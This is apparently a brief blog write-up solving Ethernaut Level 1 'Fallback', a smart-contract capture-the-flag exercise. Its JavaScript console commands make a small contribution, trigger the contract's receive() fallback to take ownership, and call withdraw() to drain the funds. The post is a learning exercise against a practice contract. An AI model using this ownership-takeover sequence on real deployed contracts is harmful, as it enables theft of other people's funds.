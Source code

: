 +++
title = 'Ethernaut Level 1 - Fallback'
date = 2024-08-28T16:14:08+02:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'First level to introduce interacting with the Levels'
tags = [ 'writeups' , 'blockchain' ]
+++
1. Use the contribute function to send eth
2. Use standard function to send eth

```js
// Send via Contract ABI
contract.contribute({value:1});
// Check if eth is send
Number(await contract.getContribution());
// Triger `receive` function via normal transaction
sendTransaction({from:player, to:contract.address, value:1});
// 4. PROFIT!!!!
await contract.withdraw();
```